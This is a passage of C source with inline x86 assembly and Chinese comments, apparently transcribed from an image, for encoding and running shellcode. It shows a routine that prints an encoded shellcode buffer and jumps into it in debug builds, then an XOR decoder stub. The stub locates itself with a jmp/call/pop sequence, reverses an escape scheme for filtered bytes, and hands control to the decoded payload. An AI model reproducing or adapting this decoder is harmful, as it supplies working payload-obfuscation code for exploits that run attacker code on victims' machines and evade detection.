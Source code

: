   //shellcode的总长度
  buff_len=k;

  //打印出shellcode
  PrintSc(buff,buff_len);
  //buff[buff_len]=0;
  //printf("%s",buff);

#ifdef DEBUG
  _asm{
      lea eax,buff
      jmp eax
      ret
  }
#endif

    return  0;
}

//解码shellcode的代码
void  DecryptSc()
{
       __asm{

/////////////////////////
//定义开始标志
/////////////////////////
          PROC_BEGIN    //C macro to begin proc

          jmp   next
getEncCodeAddr:
          pop   edi
          push  edi
          pop   esi
          xor   ecx,ecx
Decrypt_lop:
          lodsb
          cmp  al,cl
          jz   shell
          cmp  al,0x30  //判断是否为特殊字符
          jz   special_char_clean
store:
          xor  al,Enc_key
          stosb
          jmp  Decrypt_lop
special_char_clean:
          lodsb
          sub al,0x31
          jmp store
next:
          call  getEncCodeAddr
          //其余真正加密的shellcode代码会连接在此处
shell:
